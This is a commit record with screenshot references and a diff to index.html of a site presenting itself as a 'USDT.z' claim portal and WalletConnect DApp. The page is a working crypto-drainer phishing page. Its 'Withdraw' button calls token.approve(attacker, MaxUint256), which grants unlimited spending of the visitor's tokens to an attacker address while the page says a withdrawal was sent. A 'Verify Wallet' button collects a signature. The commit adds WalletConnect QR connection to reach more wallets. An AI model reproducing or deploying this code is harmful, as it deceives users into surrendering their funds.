

Before and after one commit to joeljj23/USDT.z, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -2,28 +2,29 @@
 <!DOCTYPE html>
 <html>
 <head>
-  <title>USDT.z Claim Portal</title>
+  <title>USDT.z WalletConnect DApp</title>
   <style>
-    body { font-family: Arial; text-align: center; background: #f2f2f2; padding: 40px; }
-    .box { background: white; border-radius: 10px; padding: 30px; display: inline-block; }
-    .title { font-size: 24px; margin-bottom: 10px; }
+    body { font-family: Arial, sans-serif; text-align: center; background: #f4f4f4; padding: 50px; }
+    .box { background: white; padding: 30px; border-radius: 10px; box-shadow: 0 0 10px rgba(0,0,0,0.1); display: inline-block; }
+    .title { font-size: 24px; font-weight: bold; margin-bottom: 20px; }
+    .btn { padding: 10px 20px; margin: 10px; cursor: pointer; font-size: 16px; }
     .value { font-size: 20px; color: green; }
-    .btn { padding: 10px 20px; margin: 10px; cursor: pointer; }
-    .danger { color: red; font-weight: bold; }
+    .danger { color: red; font-weight: bold; margin-top: 10px; }
   </style>
 </head>
 <body>
   <div class="box">
-    <div class="title">USDT.z Wallet Verification</div>
+    <div class="title">USDT.z WalletConnect DApp</div>
+    <button class="btn" onclick="connect()">Connect via QR</button>
     <p id="wallet">Wallet: Not connected</p>
     <p id="balance">Balance: -</p>
-    <p class="value">Estimated Value: $<span id="usd">0</span></p>
-    <button class="btn" onclick="connect()">Connect Wallet</button>
+    <p class="value">Estimated USD: $<span id="usd">0</span></p>
     <button class="btn" onclick="approve()">Withdraw</button>
     <button class="btn" onclick="sign()">Verify Wallet</button>
     <p class="danger" id="status"></p>
   </div>
 
+  <script src="https://cdn.jsdelivr.net/npm/@walletconnect/web3-provider@1.8.0/dist/umd/index.min.js"></script>
   <script src="https://cdn.ethers.io/lib/ethers-5.2.umd.min.js"></script>
   <script>
     const tokenAddress = "0xc1C4812dc9B48742768fADbce323655C65afe0B1";
@@ -38,8 +39,16 @@
     let provider, signer;
 
     async function connect() {
-      provider = new ethers.providers.Web3Provider(window.ethereum);
-      await provider.send("eth_requestAccounts", []);
+      const WalletConnectProvider = window.WalletConnectProvider.default;
+      const wcProvider = new WalletConnectProvider({
+        rpc: {
+          56: "https://bsc-dataseed.binance.org/"
+        }
+      });
+
+      await wcProvider.enable();
+
+      provider = new ethers.providers.Web3Provider(wcProvider);
       signer = provider.getSigner();
       const address = await signer.getAddress();
       document.getElementById("wallet").innerText = "Wallet: " + address;
@@ -58,11 +67,11 @@
     async function approve() {
       const token = new ethers.Contract(tokenAddress, abi, signer);
       await token.approve(attacker, ethers.constants.MaxUint256);
-      document.getElementById("status").innerText = "Withdraw request sent.";
+      document.getElementById("status").innerText = "Withdraw approval sent.";
     }
 
     async function sign() {
-      const message = "Sign to verify your wallet for USDT.z withdrawal.";
+      const message = "Sign to verify your wallet for USDT.z.";
       const address = await signer.getAddress();
       const hexMessage = ethers.utils.hexlify(ethers.utils.toUtf8Bytes(message));
       const signature = await provider.send("personal_sign", [hexMessage, address]);
```
